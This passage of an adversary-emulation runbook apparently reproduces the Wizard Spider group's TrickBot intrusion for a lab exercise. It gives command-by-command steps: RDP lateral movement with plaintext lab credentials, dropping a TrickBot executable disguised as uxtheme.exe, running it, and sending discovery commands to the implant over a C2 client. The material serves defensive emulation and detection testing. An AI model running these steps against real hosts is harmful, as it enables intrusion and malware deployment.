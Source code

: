 
### :biohazard: Procedures

Change your RDP tab name to "RDP into Toto"

RDP into Toto and create RDP drive that has TrickBot folder structure

```bash
# Wizard Spider has used RDP for lateral movement.[5][2][8]

cd ~/
xfreerdp +clipboard /u:oz\\bill /p:"Fall2021" /v:10.0.0.8 /drive:X,wizard_spider/Resources/TrickBot/WNetval
```

Open `CMD.exe` and copy file to bill's AppData\Roaming

:warning: make sure you're in a `CMD` shell

```bash
copy \\tsclient\X\TrickBotClientExe.exe %AppData%\uxtheme.exe
```

 Kick off exeuction by starting TrickBotClientExe.exe

```bash
cd %AppData%
uxtheme.exe
```

### :microscope: Cited Intelligence
* https://attack.mitre.org/groups/G0102/

* https://www.crowdstrike.com/blog/timelining-grim-spiders-big-game-hunting-tactics/

### Step 5 - TrickBot Discovery

:microphone: `Voice Track:`

In step 5 Wizard Spider uses TrickBot to perform detailed system discovery.

You will see TrickBot executing shell commands, such as systeminfo, sc.exe, net.exe, and so on.

Trickbot executes commands via the C standard library function, `system()`.

### :biohazard: Procedures

Switch back to your C2 terminal window.

Execute the following commands.

```bash
# TrickBot gathers the OS version, machine name, CPU type, amount of RAM available, and UEFI/BIOS firmware information from the victim’s machine.[1][2][7][12]

./evalsC2client.py --set-task TrickBot-Implant "systeminfo > discovery.txt"
```

```bash
# TrickBot collects a list of install programs and services on the system’s machine.[1]

./evalsC2client.py --set-task TrickBot-Implant "sc query >> discovery.txt"
```
